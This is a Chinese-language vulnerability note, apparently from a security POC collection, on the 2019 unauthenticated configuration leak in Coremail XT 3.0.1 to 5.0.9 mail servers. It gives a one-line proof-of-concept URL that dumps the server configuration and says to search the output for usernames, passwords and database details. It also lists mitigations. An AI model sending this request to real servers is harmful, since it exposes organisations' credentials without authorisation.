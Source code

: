 ```yaml
---
title: "Coremail配置文件信息泄漏"
id: zhfly2858
---
```


### 一、漏洞简介

Coremail论客邮件系统开始研发于1999年，是中国第一套中文邮件系统，目前在中国大陆地区拥有超过10亿终端用户，是网易、中华网等运营商至今一直使用的邮件系统，也是政府、事业单位、科教、企业等机构广泛使用的邮件系统。

2019年6月，网上流传出Coremail论客邮件系统配置文件泄露的漏洞，该漏洞无需认证即可获取邮件系统的配置文件内容。

Coremail官网发布的漏洞公告：《关于Coremail邮件系统安全问题的情况说明》，http://www.coremail.cn/About/news_x/article_id/32641.htm

### 二、漏洞影响

Coremail XT 3.0.1至XT 5.0.9版本，XT 5.0.9a及以上版本已修复该漏洞

### 三、复现过程

##### POC

```
http://mail.xxxxx.com/mailsms/s?func=ADMIN:appState&dumpConfig=/ 
```

输入Poc访问漏洞页面
发现信息泄露页面内搜索user，password，database等关键字
如下图

![image](../img/ca7ffe7a68d20b74aca6b57e6f0b65c9.png)

### 四、修复建议

1、在不影响使用的情况下，仅允许VPN连接后才可访问；

2、在Web服务器（nginx/apache）上限制外网对 /mailsms 路径的访问。建议使用Coremail构建邮件服务器的信息系统运营者立即自查，发现存在漏洞后及时修复。